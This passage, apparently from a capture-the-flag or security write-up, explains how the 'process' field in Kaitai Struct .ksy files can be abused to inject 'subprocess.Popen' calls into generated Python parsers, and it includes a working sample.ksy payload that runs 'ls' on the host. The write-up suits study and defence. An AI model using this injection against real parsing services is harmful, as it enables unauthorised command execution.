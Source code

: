 ```python
import marshal
from kaitaistruct import KaitaiStruct, KaitaiStream, BytesIO
from custom_processor import CustomProcessor


if parse_version(kaitaistruct.__version__) < parse_version('0.9'):
    raise Exception("Incompatible Kaitai Struct Python API: 0.9 or later is required, but you have %s" % (kaitaistruct.__version__))

class Sample(KaitaiStruct):
    def __init__(self, _io, _parent=None, _root=None):
        self._io = _io
        self._parent = _parent
        self._root = _root if _root else self
        self._read()

    def _read(self):
        self._raw_foo = self._io.read_bytes(10)
        _process = CustomProcessor()
        self.foo = _process.decode(self._raw_foo)
```
At first, this doesn't appear to be any more exploitable than the opaque types feature. But we can actually pass custom arguments to the custom processor as well. The intent is for these arguments to be previously parsed values from other parts of the file, but it seems like they can be any valid YAML constant, including numbers, booleans, strings, and lists, and they will get converted to the Python equivalent. So `process: custom_processor(1, false, ["foo", "bar"])` translates to `_process = CustomProcessor(1, False, [u"foo", u"bar"])`.

Finally, the custom processor field supports its own version of namespacing with the `.` separator. But this gets translated differently: `process: bar.baz.custom_processor` translates to
```python
import bar.baz
_process = bar.baz.CustomProcessor()
```
Crucially, the function name now no longer has to be the same as the module name. So the only restriction we have left is that the function name always gets turned into upper camel case, but we can import any upper camel case function from any module and call it with any constant arguments.

This rules out regular lowercase functions that can give us a shell like `os.system` or `code.interact`, but one uppercase function (constructor) that *does* let us do interesting things is `subprocess.Popen`. Given a list of strings as argument, it executes the first item as a program and passes the rest of the strings to it as arguments. Unfortunately we can't do `Popen(['/bin/sh'])` and directly get a shell that we can interact with, since just calling the `Popen` constructor doesn't wait for the process, you have to explicitly call the `wait` method for that. But we can execute any individual non-interactive command and see its output.

So now, with the following `sample.ksy`
```yaml
meta:
  id: test_record
seq:
- id: foo
  size: 1
  process: subprocess.popen(["ls", "/src/app"])
```
(note the lowercase `p` in `popen`!) we get the following `sample.py`:
```python
# This is a generated file! Please edit source .ksy file and use kaitai-struct-compiler to rebuild

from pkg_resources import parse_version
import kaitaistruct
import marshal
from kaitaistruct import KaitaiStruct, KaitaiStream, BytesIO
import subprocess

```